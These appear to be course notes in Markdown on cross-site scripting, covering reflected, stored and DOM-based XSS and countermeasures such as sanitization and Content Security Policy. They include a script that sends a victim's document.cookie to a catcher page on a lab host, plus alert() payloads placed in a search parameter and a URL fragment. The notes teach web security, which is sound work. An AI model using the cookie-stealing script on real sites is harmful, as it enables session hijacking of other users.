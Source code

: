 ## Cross-Site-Scripting
* Inject JavaScript code into webpage that is viewed by other users
* Using this, sessions can be hijacked, integrate fake login forms, send arbitrary requests
* Server-Side XSS: Created JavaScript code is integrated into the page on server side and send back to the client
* Client-Side XSS: Create JavaScript code is integrated into page on client side (e.g. from JSON response)

Example to get cookies:
```javascript
<script>
XSSImage=new Image;
XSSImage.src='http://ubuntu.test/attackdemo/WebGoat/catcher/catcher.php?cookie=' + document.cookie;
</script>
```

### Reflected XSS
* Also called non-persistent
* Attacker sends user link or hidden form that is submitted with JavaScript code to the server and "reflected" back to the page and executed
* Example could be that the attacker prepares link: `https://example.com?search=<script>alert('test')</script>`
  * Link is processes by server and javascript is directly included in the page
* Other example using post requests:
  * Attacker sends user email to own website with link
  * If user clicks link, theres a hidden form which automatically submits the form

### Stored XSS
* JavaScript code is permantely stored on the server (e.g. in a database that serves data for a guest book)

### DOM-based XSS
* No server is involved at all, everything happens in the browser
* Example:
  * Include JavaScript code using `#` symbol that is not send to server:
  * `http://ubuntu.test/attackdemo/general/DOMbased_XSS1.html#<script>alert("XSS");</script>`
  * Some browsers do detect but some do not
* CSP does not help against this:
  * Only prevents the direct insertion of JavaScript code into the page, but if external JavaScript file (that is allowed) inserts JavaScript code to the page, this is permitted

### Counter Measures:
* Everything that is put on the page has to be sanitized
* Browsers also offer counter measures:
  * Check if last requests contains the same JavaScript code block that is going to be executed -> likely attack and code is not executed
  * [http://lwn.net/Articles/360424](http://lwn.net/Articles/360424)
* Content Security Policy
* DOM-based XSS:
  * Write secure JavaScript code (do not use `unescape()` or `eval()`)
